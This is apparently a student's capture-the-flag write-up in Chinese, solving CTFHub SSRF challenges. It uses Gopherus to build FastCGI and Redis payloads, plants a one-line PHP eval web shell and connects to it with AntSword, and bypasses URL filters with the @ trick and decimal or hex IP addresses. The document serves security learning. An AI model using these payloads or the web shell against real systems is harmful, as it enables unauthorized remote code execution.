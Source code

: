 # 寒假WEEK4

## [ssrf/fastcgi协议]

打开之后发现什么都没有，但观察url，发现有一个get参数url

使用gopherus工具：

```
cd Gopherus

./gopherus.py --exploit fastcgi
```

![image-20250216192857560](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250216192857560.png)

第一行写根目录，第二行要执行的命令

![image-20250216192920677](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250216192920677.png)

![image-20250216192928455](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250216192928455.png)

将生成的payload进行二次url编码，bp上传之后即可得到flag



查询资料的时候，发现该题还有用上传一句话木马来连接webshell的方法，于是尝试了一下将执行的命令替换成：

```
echo "<?php eval(\$_POST[cmd]);?>" >1.php
```

将一句话木马写入1.php文件中

![image-20250216193031247](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250216193031247.png)

二次url编码后上传payload，蚁剑连接，即可在根目录找到flag



## [ssrf/redis]

![image-20250216193117546](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250216193117546.png)

用gopherus生成payload，如图所示，url二次编码后蚁剑连接，即可在根目录得到flag



## [ssrf] URL Bypass

提示：

请求的URL中必须包含http://notfound.ctfhub.com，来尝试利用URL的一些特殊地方绕过这个限制吧

打开以后有提示：url must startwith "http://notfound.ctfhub.com"

所以payload：

?url=http://notfound.ctfhub.com@127.0.0.1/flag.php

------

在URL中，@用于分隔认证信息（用户名和密码）和主机名。

例如：

https://example.com@test.com

其中@符号前的内容会被认定为用户名和密码，符号后的是解析地址，所以该url实际访问的是test.com，和example.com就无关了

------



## [ssrf] 数字IP Bypass

提示：

这次ban掉了127以及172.不能使用点分十进制的IP了。但是又要访问127.0.0.1。该怎么办呢

因为将127ban了，所以可以将127.0.0.1转化为十进制或者十六进制

![image-20250216193419533](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250216193419533.png)

故payload：

?url=http://0X7F000001/flag.php

?url=http://2130706433/flag.php

?url=http://localhost/flag.php